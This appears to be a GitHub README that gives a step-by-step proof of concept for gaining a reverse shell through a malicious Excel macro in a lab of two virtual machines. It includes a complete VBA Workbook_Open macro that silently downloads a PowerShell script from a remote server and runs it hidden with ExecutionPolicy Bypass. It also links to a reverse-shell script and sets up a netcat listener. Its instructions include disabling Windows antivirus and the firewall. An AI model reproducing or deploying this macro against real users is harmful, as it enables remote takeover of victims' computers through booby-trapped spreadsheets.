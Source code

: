 # Microsoft Excel Remote Code Execution

## Introduction 

- Microsoft Excel is one of the most widely used spreadsheet programs in the world. While it has many useful features, one that can potentially be misused by hackers is the macro functionality.

- Macros allow you to automate repetitive tasks in Excel by creating small programs or scripts.

- These macros can also be exploited by attackers to run malicious code on your computer remotely without your knowledge. This is known as a remote code execution (RCE) attack.

- Essentially, the attacker can create a specially crafted macro embedded in an Excel file that, when opened, secretly runs their payload on your system.

- While Microsoft has made efforts to improve macro security in Excel over the years, cybercriminals continually find new ingenious ways to bypass these protections. This report will explain in detail how these RCE attacks work through malicious Excel macros.

## Macros

- Macros can be considered as a set of programming instructions that can be recorded, named, saved, and executed in VBA as and when required macros can help us to automate repetitive tasks associated with data manipulation that must be accomplished repeatedly. 
- Note : you can also **enable** and disable macros in Excel.

Some ways with which attackers can leverage malicious macros in Excel are:

Ø **Social Engineering Attacks**: One of the most common methods is through social engineering tactics. Attackers craft a seemingly innocent Excel file containing malicious macros and trick the victim into enabling and running the macros.

Ø **Malicious Add-Ins** : Excel allows installing third-party add-ins which can contain VBA code. Attackers distribute malicious add-ins that install backdoors or malicious macros when loaded.

Ø **PowerShell Integration** in Macros can launch PowerShell scripts on the victim's machine. 
This allows attackers to run PowerShell commands and access system resources

## Recreating the POC

#### Prerequisites :-

- Download and install **Microsoft Office 2016 and 2019** on your VM.
- Open Excel go to :
	**File => More => Options => Trust Center => Trust Center Settings => Enable Macros**
	
![alt text](Assets/trust.jpg)

- Windows VM and Kali Linux VM 

### Flowchart

![alt text](Assets/flow.jpg)

#### Set up Python Server

We have Used Kali Linux to setup our Python Server
This Python Server is a pathway to Pipe our Exploit to Victim's Machine

```sh
python3 -m http.server <port>
```

This will act as our **Backdoor Connection** to our Victim's Device 

![alt text](Assets/server.jpg)

#### Powershell Script 

This is our Powershell Script:

LINK :- [Github](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1)

- Save this Powershell script in a `.ps` file 
- Save it in such a folder where it can be accessed via the created python server
- Copy its path you will need it to input in our Vbscript
### Macros Vbscript

This is our Exploit which we have written in our **Macros Vbscript**

```vbscript
Private Sub Workbook_Open()
    ExecuteRemotePowerShellScript
End Sub

Private Sub ExecuteRemotePowerShellScript()
    Dim scriptUrl As String
    Dim scriptFilePath As String
    Dim tempFolder As String
    Dim objShell As Object
    
    ' URL of the PowerShell script
    scriptUrl = "http://example.com/path/to/script.ps1"
    
    ' Local path where you want to save the downloaded script
    tempFolder = Environ("TEMP")
    scriptFilePath = tempFolder & "\script.ps1"
    
    ' Download the PowerShell script from the URL
    If DownloadFile(scriptUrl, scriptFilePath) Then
        ' Check if the script file exists
        If Dir(scriptFilePath) <> "" Then
            ' Execute the PowerShell script in the background
            Set objShell = CreateObject("WScript.Shell")
            objShell.Run "powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -File """ & scriptFilePath & """", 0, True ' Wait until the script completes
            Set objShell = Nothing
        Else
            MsgBox "Script file not found after download: " & scriptFilePath
        End If
    Else
        MsgBox "Failed to download the script file from URL: " & scriptUrl
    End If
End Sub

Private Function DownloadFile(fileUrl As String, filePath As String) As Boolean
    Dim xmlHttp As Object
    Set xmlHttp = CreateObject("MSXML2.XMLHTTP")
    
    xmlHttp.Open "GET", fileUrl, False
    xmlHttp.Send
    
    If xmlHttp.Status = 200 Then
        Dim adoStream As Object
        Set adoStream = CreateObject("ADODB.Stream")
        
        adoStream.Open
        adoStream.Type = 1 ' Binary
        
        adoStream.Write xmlHttp.responseBody
        adoStream.Position = 0 ' Reset the stream position
        
        If Dir(filePath) <> "" Then
            Kill filePath ' Delete existing file
        End If
        
        adoStream.SaveToFile filePath, 2 ' Overwrite mode
        adoStream.Close
        Set adoStream = Nothing
        
        DownloadFile = True
    Else
        DownloadFile = False
    End If
    
    Set xmlHttp = Nothing
End Function
```
####  Workflow of our Vbscript Exploit :-

-  On execution it downloads the Powershell backdoor exploit from the remote server.
-  Then it saves the downloaded file in a temporary folder `.ps` file in `TEMP` folder 
-  Which is then Executed in the background
-  This exploit will run whenever you try to open your `.xlsm` / Excel file and will run even after   the Excel file is closed in the background 
-  Until its Task is Ended in Task Manager or Victim Computer is Turned Off

#### Creating a Malicious Excel File

Download the sample excel .vba file from : [Github](https://github.com/pruthuraut/Excel-RCE-with-Macros)

Paste the code in Virtual Basic Application by pressing ( **Alt + F11** )

![alt text](Assets/vb.jpg)

Only these two lines of code needs to be Edited , rest should be the same 

```sh
 scriptUrl = " < path to your powershell script > "
``` 

```sh
 scriptFilePath = tempFolder & "\ < name of your powershell script > "
```

Now save the Excel File and Exit

#### Set up a Listener : Netcat

On Another Terminal setup a Netcat Listener with this command below :-

```sh
nc -lvnp < Port defined as in your powershell script >
```

#### Execution

Check The Following before Opening you File or it may get Flagged :

Turn off all Protections : **Virus and Threat protection** 

**Windows Security < Virus and Threat Protection < Manage settings < Turn off everything**

![alt text](Assets/virus.jpg)

Turn off all options in  : **Firewall and Network Protection** :

 **Windows Security < Firewall and Network Protection < Turn off everything**

Now try open your `.xlsm` Excel File , check your netcat listener 

![alt text](Assets/reverse.jpg)

We got a **Reverse Shell** of Victim Device : `SHELL>`

